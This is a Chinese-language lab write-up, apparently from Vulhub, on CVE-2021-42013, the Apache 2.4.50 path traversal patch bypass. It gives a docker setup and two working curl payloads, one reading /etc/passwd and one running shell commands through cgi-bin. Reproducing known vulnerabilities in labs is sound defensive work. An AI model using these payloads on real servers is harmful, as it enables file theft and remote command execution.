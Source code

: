 # Apache HTTP Server 2.4.50 路径穿越漏洞（CVE-2021-42013）

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## 漏洞环境

执行如下命令编译及运行一个存在漏洞的Apache HTTP Server 2.4.50版本服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 漏洞利用

我们使用[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。

但我们可以使用`.%%32%65`进行绕过（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

可见，成功读取到`/etc/passwd`：

![](1.png)

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![](2.png)
